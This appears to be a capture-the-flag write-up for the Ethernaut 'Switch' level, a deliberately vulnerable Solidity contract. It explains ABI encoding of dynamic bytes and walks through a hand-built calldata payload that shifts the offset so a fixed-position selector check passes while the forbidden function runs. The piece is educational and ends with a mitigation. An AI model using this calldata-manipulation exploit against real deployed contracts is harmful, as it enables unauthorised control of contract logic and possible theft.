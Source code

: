 ```yaml
---
title: Level 29 - Switch
slug: level-29
published: 06-10-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut29.svg
---
```


## Objectives

1. Flip the switch. Easy right?

## Vulnerabilities

### Assuming positions in `calldata` with dynamic types.

The way _Dynamic types_ are encoded when passed as function arguments is not straightforward. They are encoded in the 
following sequence:

- 32 bytes for the **offest** value which indicates where the dynamic data starts. For instance, 0x20 (or 32 in decimals) means that
the dynamic data starts exactly 32 bytes after this field. This allows the fixed-length portion of the function arguments 
to be densely packed together, saving space.

- 32 bytes of the **length** value which specifies the length of the data. 0x04 means that the bytes argument is 4 bytes long.

- Finally, you have the actual data.

since the **offset** and **length** vary, you can't assume specific position in the `calldata`. This could
be exploited.


## Exploit

it's quite straightforward to see that we want to call `flipSwitch` with some data in a way for `turnSwitchOn` 
to be called by the contract itself. Let's investigate deeper.

`flipSwitch` has the function modifier `onlyOff` which is the following:

```solidity
modifier onlyOff() {
    // we use a complex data type to put in memory
    bytes32[1] memory selector;
    // check that the calldata at position 68 (location of _data)
    assembly {
        calldatacopy(selector, 68, 4) // grab function selector from calldata
    }
    require(
        selector[0] == offSelector,
        "Can only call the turnOffSwitch function"
    );
    _;
}
```

The inline assembly assigns the selector variable to the value of the 4 bytes starting at the 68th byte in the `calldata`.
The `require`function needs those 4 bytes to be the function selector of `turnSwitchOff`. If we can somehow create a 
`calldata` that has `turnSwitchOff` at the 68th bytes while also having the `turnSwitchOn` function selector, we could 
probably exploit the contract.

1. Let's find the function selector of  `turnSwitchOff` and `turnSwitchOn`. Let's do this using web3 in the console:
```javascript
const offSelector = web3.eth.abi.encodeFunctionSignature("turnSwitchOff()"); 
// 0x20606e15
const onSelector = web3.eth.abi.encodeFunctionSignature("turnSwitchOn()"); 
// 0x76227e12
```

2. Next since I'm too lazy to look into the docs and figure out by hand how calling `flipSwitch` with an argument is encoded
into, let's log it out in the console using web3 again.


```javascript
const calldata = web3.eth.abi.encodeFunctionCall({
  name: 'flipSwitch',
  type: 'function',
  inputs: [{ type: 'bytes', name: '_data' }]
}, [offSelector]);
// 0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000
```

Let's make sense of this byte array monster using what we know about dynamic and a trusty <a target="\_blank" rel="noopener noreferrer" hre="https://wordcounter.net/character-count">character counter</a>.

- `0x` Doesn't count, it just indicates we are dealing in bytes.  

- `30c13ade` 4 bytes representing the function selector of `flipSwitch` with `offSelector` or `"0x20606e15"` as argument.  

- `0000000000000000000000000000000000000000000000000000000000000020` 32 bytes representing a 32 (0x20 in decimal) bytes offset.  

- `0000000000000000000000000000000000000000000000000000000000000004` 32 bytes representing the length of the value. Only 4 bytes long in this case.  

- `20606e1500000000000000000000000000000000000000000000000000000000` 32 bytes which is the `offSelector` right padded by 28 bytes of zeroes.  


3. Let's create our own `calldata` with `offSelector` at the 68th byte but let's tell the EVM to look for the value 
of the argument elsewhere and we will point it to the value of `onSelector`.

- `0x` Doesn't count, it just indicates we are dealing in bytes.  

- `30c13ade` Same 4 bytes representing the function selector of `flipSwitch` with `offSelector` or `"0x20606e15"` as argument.  

- `0000000000000000000000000000000000000000000000000000000000000060` 32 bytes representing a 96 (0x60 in decimal) bytes offset. This is how
we exploit the `onlyOff` function modifier.  

- `0000000000000000000000000000000000000000000000000000000000000000` Some extra bytes that we introduces with the new padding.  

- `20606e1500000000000000000000000000000000000000000000000000000000` 32 bytes which is the `offSelector` right padded by 28 bytes of zeroes. 
It is still at the 68th byte and so the `onlyOff` require function will be happy.  

- `0000000000000000000000000000000000000000000000000000000000000004` 32 bytes representing the length of the value which is 4.  

- `76227e1200000000000000000000000000000000000000000000000000000000` 32 bytes which is the `onSelector` right padded with zeroes.  


4. All that is left is to call `flipSwitch` with the listed byte strings concatenated into a giant one.

## Suggested mitigation

1. Adding additionnal verification in the `calldata` could help prevent this but I would suggest to avoid
relying on low level call like this when it's not necessary.

## Further reading

- Solidity docs on ABI encoding <ExternalLink href={"https://docs.soliditylang.org/en/develop/abi-spec.html"} />
- Character counter tool <ExternalLink href={"https://wordcounter.net/character-count"} />
